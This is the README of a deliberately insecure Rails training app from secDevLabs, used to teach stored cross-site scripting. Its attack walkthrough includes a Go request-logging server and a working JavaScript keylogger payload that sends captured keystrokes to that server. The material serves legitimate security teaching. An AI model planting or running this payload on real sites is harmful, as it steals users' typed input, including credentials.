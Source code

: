 # Rate my cake 🍰

<p align="center">
    <img src="images/01.png"/>
</p>

Rate my cake is a Rails web application where you rate the freshly baked rainbow cake of Mr cakelover and leave a kind message. The application has a problem though, it has XSS vulnerabilities.

## Index

- [Definition](#what-is-cross-site-scripting)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is Cross-Site Scripting?

XSS flaws occur whenever an application includes untrusted data in a new web page without proper validation or escaping, or updates an existing web page with user-supplied data using a browser API that can create HTML or JavaScript. XSS allows attackers to execute scripts in the victim’s browser which can hijack user sessions, deface web sites, or redirect the user to malicious sites.

The main goal of this app is to discuss how **Cross-Site Scripting** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][docker install] and [Docker Compose][docker compose install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2017-apps/a7/rate-my-cake
```

```sh
make install
```

Then simply visit [localhost:3000][app] ! 😆

## Get to know the app

This application is designed to be the most straight forward as possible so no user creation is required.

- Access localhost:3000
- Leave your rate to Mr Cakelover

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

So lets leave a rate to Mr Cakelover

Adding a new rate:
<img src="images/02.png" align="center"/>
<small>Click on 'Leave a rate' button</small>

Let's try out something and test if the application is skipping html code on comments:

<img src="images/03.png" align="center"/>

<small> Surround the `Love It` (or anything you like) with a `<b>` (bold) tag and click `Submit`. A visualization screen will appear, click `Back` to get back to the index </small>

Ok, lets check the result:

<img src="images/04.png" align="center"/>

<small>Yeap ! It looks like the developer has committed a very common mistake and forgot to skip the HTML code on the comment input.
This leaves space for a malicious attacker to inject Javascript code into the application.</small>

### 🔥

An attacker may abuse these flaws by generating a malicious JS code and sending it to other users. To demonstrate this, the following example will get all keyboard input from a user by persisting a malicious code in the server.

First, the following Golang API can be built (main.go) that logs all received requests:

```go
package main

import (
   "fmt"
   "github.com/labstack/echo"
)

func main() {
   e := echo.New()
   e.GET("/:k", handler)
   e.Logger.Fatal(e.Start(":1232"))
}

func handler(c echo.Context) error {
   fmt.Println(c.Request().RemoteAddr, c.Param("k"))
   return nil
}
```

To run this code simply type the following command in your terminal (you should check this [guide](https://golang.org/doc/install) if you need any help with Golang):

```sh
go run main.go
```

Then, the attacker can insert a new post through the **/rates/new** route by using the following code in the text field:

```html
<script>
  var k = "";
  document.onkeypress = function (e) {
    e = e || window.event;
    k += e.key;
    var i = new Image();
    i.src = "http://localhost:1232/" + k;
  };
</script>
```

This code implements a keylogger to capture all keyboard input from users and send it to the API created beforehand.

The attacker now gets all the input on the server log, as shown below:

<img src="images/05.png" align="center"/>

## Secure this app

How would you mitigate this vulnerability? After your changes, an attacker should not be able to:

- Execute scripts through input fields

## PR solutions

[Spoiler alert 🚨] To understand how this vulnerability can be mitigated, check out [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Gossip+World%22)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10007
